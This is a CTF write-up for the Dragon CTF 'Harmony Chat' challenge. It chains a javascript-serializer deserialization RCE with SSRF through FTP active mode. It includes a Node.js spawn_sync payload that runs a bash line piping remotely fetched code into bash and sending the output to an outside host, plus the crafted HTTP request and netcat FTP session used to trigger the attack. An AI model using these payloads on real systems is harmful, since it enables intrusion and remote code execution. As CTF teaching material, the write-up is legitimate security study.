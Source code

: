 # Harmony Chat [283 points] (27 solves)

Files:

 - This challenge provided a [link](http://harmony-1.hackable.software:3380/) and source ([harmony.zip](https://storage.googleapis.com/dragonctf-prod/harmony_301f77ba9efff83a832c0a31886c8d4a7aae39de1b9b3126fef5c7d4815b515f/harmony.zip))

## Part 0: research

At first sight, the challenge looks like an IRC-like chat, where you can log in with your name and send messages.

The web app also allowed for downloading logs via HTTP and FTP, which seemed exploit-worthy to us.

Upon inspecting the source code, we found a very obscure, yet common-sounding library called [`javascript-serializer`](https://github.com/wix-incubator/javascript-serializer), which can serialize and deserialize classes and an endpoint for sending CSP report, which was restricted for localhost:
```javascript
const handleReport = (req, res) => {
  let data = Buffer.alloc(0)

  req.on("data", chunk => {
    data = Buffer.concat([data, chunk])
  })

  req.on("end", () => {
    res.status(204).end()

    if (!isLocal(req)) {
      return
    }

    try {
      const report = utils.validateAndDecodeJSON(data, REPORT_SCHEMA)
      console.error(generateTextReport(report["csp-report"]))
    } catch (error) {
      console.warn(error)
      return
    }
  })
}
```

Considering that the `validateAndDecodeJSON` function returns data parsed by the library mentioned above, we realized it could lead to a simple RCE exploit, as you could just pass a "serialized" `Function` class with function body.

## Part 1: crafting an exploit

It turned out that in newer versions, the `Function()` constructor in Node.js is somehow sandboxed, without most things like `require`. One of the ways of getting around it is using weird internal functions, in our case it was `process.binding('spawn_sync')` to spawn a process.
Here's the exploit we ended up using:
```javascript
process.binding('spawn_sync').spawn({
	file: '/bin/bash',
	args: [
		'/bin/bash', '-c', 'curl -d \"$(curl https://%REDACTED% | bash)\" https://%REDACTED%/'
	],
	stdio: [
		{type:'pipe',readable:!0,writable:!1},
		{type:'pipe',readable:!1,writable:!0},
		{type:'pipe',readable:!1,writable:!0}
	]});
```
In short, the exploit connects to some server, executes code from it and sends output via POST to another server.

After minifying the code and putting it into JSON, we started to search for a property we could exploit. As most of the properties were defined in the schema to be strings, it wouldn't be possible to put the object into them. Hopefully, there have been some optional properties which were not defined in the schema, but were evaluated in the code. We decided to use `script-sample`, because it was one of the optional properties and wasn't handled in any special way, just printed.
```javascript
const generateTextReport = report => {
  ...

  if (report["script-sample"]) {
    text += `Sample      : ${report["script-sample"]}\n`
  }

  ...
}
```


## Part 2: SSRF

In the meantime, we started to look for a SSRF exploit, because the CSP report endpoint was being limited only to localhost. We realized that because of the FTP server, we could craft such "chat log" that would be a valid HTTP request, then send that file via FTP active mode to `127.0.0.1:3380`.
Fortunately, the only limitations were:
- the line must have `: ` after 0-30 characters (length of the username)
- the line must be less than 2080 characters long (30 for the username, 2 for the `: ` and 2048 for the content)

The HTTP request we came up with:
```
POST /csp-report?: HTTP/1.1
Host: 127.0.0.1
Content-Length: 527
Content-Type: application/csp-report

{"csp-report":{"blocked-uri":""(...)
```

Note the `?:` part in the path - it's needed because of the first limitation.

Having that, we've created a [script](https://github.com/p4-team/ctf/blob/master/2020-11-20-dragonctf/harmony_chat/send.py) for crafting the file on the server, which basically creates new users and joins the same channel, then prints the link to the chat log it created.

## Part 3: actual exploiting

After all that, triggering the actual exploit was as simple as this:
(`13,52` = `(13*256)+52` = `3380`)
```
$ nc harmony-1.hackable.software 3321
220 FTP server (nodeftpd) ready
USER f24090d4641cb9b776c2bd5b05446c9d
331 User name okay, need password.
PASS x
230 User logged in, proceed.
PORT 127,0,0,1,13,52
200 OK
RETR 848800924e2316585788974dc12dbbcf
150 Opening ASCII mode data connection
226 Closing data connection, sent 636 bytes
```
